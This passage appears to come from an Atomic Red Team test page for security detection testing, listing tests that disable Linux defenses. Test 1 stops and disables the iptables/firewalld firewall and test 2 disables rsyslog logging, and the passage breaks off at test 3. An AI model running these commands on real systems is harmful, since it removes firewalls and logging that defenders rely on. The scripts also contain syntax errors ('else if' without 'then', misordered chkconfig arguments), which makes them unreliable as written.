 - [Atomic Test #19 - Disable Microft Office Security Features](#atomic-test-19---disable-microft-office-security-features)

- [Atomic Test #20 - Remove Windows Defender Definition Files](#atomic-test-20---remove-windows-defender-definition-files)

<br/>

## Atomic Test #1 - Disable iptables firewall

Disables the iptables firewall

**Supported Platforms:** Linux

#### Attack Commands: Run with `sh`!

```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi
```

<br/>
<br/>

## Atomic Test #2 - Disable syslog

Disables syslog collection

**Supported Platforms:** Linux

#### Attack Commands: Run with `sh`!

```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi
```

<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
